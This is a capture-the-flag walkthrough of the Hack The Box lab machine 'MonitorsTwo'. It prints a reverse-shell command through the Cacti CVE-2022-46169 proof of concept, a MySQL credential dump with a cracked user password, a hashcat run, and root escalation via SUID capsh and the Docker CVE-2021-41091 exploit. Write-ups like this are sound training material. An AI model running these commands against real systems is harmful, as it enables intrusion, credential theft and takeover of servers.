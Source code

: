 ```yaml
---
title: HTB | MonitorsTwo - Write Up
date: 2023-07-9 14:00:00 -500
categories: [HTB, write-ups]
tags: [htb,red-team,ctf]
img_path: /assets/img/monitorstwo
---
```


## NMAP

`nmap -p- -sV -sC 10.10.11.211`

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-25 14:22 PDT
Nmap scan report for 10.10.11.211
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.17 seconds
```

## Gobuster

```
gobuster dir --url http://10.10.11.211/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,xml 
```

![gobuster-resaults](Pasted image 20230625144349.png)

Nothing too interesting was found, so moving on to see if we can glean any information from cacti site itself.

## Cacti

![cacti](Pasted image 20230625142620.png)

Version of Cacti running is:  1.2.22 

According to the change log there is a CVE that was patched in version 2.2.3 
![change-log](Pasted image 20230625144433.png)

## RCE for Cacti
Write up on the Command execution found on google: [https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/)

CVE POC: [https://github.com/sAsPeCt488/CVE-2022-46169](https://github.com/sAsPeCt488/CVE-2022-46169)

I was able to download a copy of the payload from the github, and run it on my machine to get a shell open via a netcat reverse tunnel

![copying-over-payload](Pasted image 20230625152056.png)

The bit of the payload that creates the revshell
![](Pasted image 20230625152555.png)

```
python3 cacti_poc.py http://10.10.11.211/ -c "bash -c 'bash -i >& /dev/tcp/10.10.14.7/1337 0>&1'"
```

## Finding the Good stuff

![etc/password](Pasted image 20230625152954.png)

Interesting file in `/` called `entrypoint.sh`, chmod +x gives us a command that will connect to the mysql server

![entrypoint.sh](Pasted image 20230625155852.png)

After connecting to the database we are able to query to see what tables are there. Some of the more interesting ones are shown bellow.
![msql-query](Pasted image 20230625160618.png)

Using the following msql command we are able to dump all of the table contents from the user_auth table.
```
mysql --host=db --user=root --password=root -e "select * from user_auth" cacti
```

![mysql](Pasted image 20230625160456.png)

Here is the output for the for the SQL command:
```
< --password=root -e "select * from user_auth" cacti
id	username	password	realm	full_name	email_address	must_change_password	password_change	show_tree	show_list	show_preview	graph_settings	login_opts	policy_graphs	policy_trees	policy_hosts	policy_graph_templates	enabled	lastchange	lastlogin	password_history	locked	failed_attempts	lastfail	reset_perms

1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	0	Jamie Thompson	admin@monitorstwo.htb		on	on	on	on	on	2	1	1	1	1	on	-1	-1	-1	00	663348655

3	guest	43e9a4ab75570f5b	0	Guest Account		on	on	on	on	on	3	1	1	1	1	1		-1	-1	-1		0	0	0

4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C	0	Marcus Brune	marcus@monitorstwo.htb			on	on	on	on	1	1	1	1	1	on	-1	-1		on	0	0	2135691668

```

The logins are emails which gives us the FQDN they are using: `monitorstwo.htb`

## Password Decryption 

admin	
`$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC`

marcus	
`$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C`

Hashes start with `$2y$`  which is Bcrypt (blowfish)

Running hashcat against the hashes in mode 3200 for Bcrypt:
```
hashcat -a 0 -m 3200 2mon-hash.txt /usr/share/wordlists/rockyou.txt 
```

One Hash has a hit:
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:
`funkymonkey`

## User Takeover
`ssh marcus@10.10.11.211`

Marcus ssh:

![you-got-mail](Pasted image 20230625164011.png)

Looks like Marcus has some system mail, wonder if there is anything in there?

![the-mail](Pasted image 20230625164443.png)

This is looking like the next area for attack: `CVE-2021-41091`

Checking the running process shows that Docker containers running int he moby namespace are present:
![](Pasted image 20230709154945.png)

There is an exploit for this [https://github.com/UncleJ4ck/CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)

Secondary Artical:
[https://exploit-notes.hdks.org/exploit/container/docker/moby-docker-engine-privesc/](https://exploit-notes.hdks.org/exploit/container/docker/moby-docker-engine-privesc/)

I downloaded the POC from the GitHub repo and then copied over to the remote machine:

![phython-webserver](Pasted image 20230709160353.png)

![exploit-copied](Pasted image 20230709160420.png)

Running the script will work and it gives us a venerable path:
```
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
``````

![mobi-fail](Pasted image 20230709160533.png)

However, its not able to execute a shell, My guess is that we will need to go back to our remote shell on the Cacti instance and change some settings from there. Since the POC suggested that the /bin/bash of the container needs to have the setuid bit enabled

## Privilege Escalation
Getting back into the Cacti container I was able to download linpeas over to the /tmp directory and execute it

![http-request](Pasted image 20230709161446.png)

Found some interesting files particularly: /sbin/capsh
![linpeas](Pasted image 20230709165556.png)

Looks like we can run it and it has the SUID bit set:

![sbin/capsh](Pasted image 20230709165718.png)

![sbin/capsh-2](Pasted image 20230709165645.png)

We can give ourselves root by using: `/sbin/capsh --gid=0 --uid=0 --`
and then set the SUID bit on /bin/bash with `chmod u+s /bin/bash`

![rev-shel](Pasted image 20230709171813.png)

## We have Root!

Re-ran moby-exp.sh:
![moby](Pasted image 20230709171918.png)

Shell spawned, but exited time to re-connect

![root-1](Pasted image 20230709172038.png)

We have root! Now its time for the Flag!

![root-2](Pasted image 20230709172234.png)

![completed](Pasted image 20230709172323.png)
